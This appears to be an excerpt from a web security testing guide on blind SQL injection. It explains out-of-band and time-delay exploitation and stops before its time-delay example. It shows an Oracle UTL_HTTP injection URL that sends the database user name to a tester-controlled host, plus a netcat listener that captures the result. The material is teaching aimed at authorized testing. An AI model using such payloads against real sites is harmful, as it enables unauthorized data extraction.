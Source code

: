 
##### Out of band Exploitation technique

This technique is very useful when the tester find a [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section.


Consider the following SQL query:


```
SELECT * FROM products WHERE id_product=$id_product
```


Consider also the request to a script who executes the query above:


```
http://www.example.com/product.php?id=10
```


The malicious request would be:


```
http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELET user FROM DUAL)--
```


In this example, the tester is concatenating the value 10 with the result of the function UTL_HTTP.request. This Oracle function will try to connect to ‘testerserver’ and make a HTTP GET request containing the return from the query “SELECT user FROM DUAL”.  The tester can set up a webserver (e.g. Apache) or use the Netcat tool:

```
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

##### Time delay Exploitation technique

The Boolean exploitation technique is very useful when the tester find a [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection) situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section).


Consider the following SQL query:


```
SELECT * FROM products WHERE id_product=$id_product
```
